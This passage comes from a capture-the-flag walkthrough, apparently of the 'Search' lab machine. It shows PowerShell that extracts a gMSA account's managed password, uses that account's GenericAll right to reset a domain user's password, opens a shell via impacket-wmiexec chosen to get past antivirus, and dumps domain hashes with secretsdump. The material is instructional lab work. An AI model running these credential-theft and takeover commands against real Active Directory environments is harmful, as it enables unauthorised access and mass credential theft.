

### GMSA

We have `ReadGMSAPassword` permissions over the `BIR-ADFS-GMSA` user which means we can retrieve the accounts password.

```powershell
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
ConvertFrom-ADManagedPasswordBlob $mp
```



## Pivot to tristan.davies

The password is gibberish, we can save it in a variable which we can use to reset `tristan`'s password.

```powershell
$cred = new-object system.management.automation.PSCredential "search\BIR-ADFS-GMSA",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

We now have `GenericAll` permissions over `tristan.davies` which means we're able to reset their password.

```powershell
Invoke-Command -ComputerName research -Credential $cred -ScriptBlock {net user tristan.davies password123! /domain}
```



### Shell
We can use `wmiexec` to get a shell since AV is enabled.

```bash
rlwrap impacket-wmiexec 'search.htb/tristan.davies:password123!'@search.htb
```



### Root.txt


## Post Exploitation
### Dump Hashes
```bash
impacket-secretsdump 'search.htb/tristan.davies:password123!'@search.htb -outputfile hashes
```

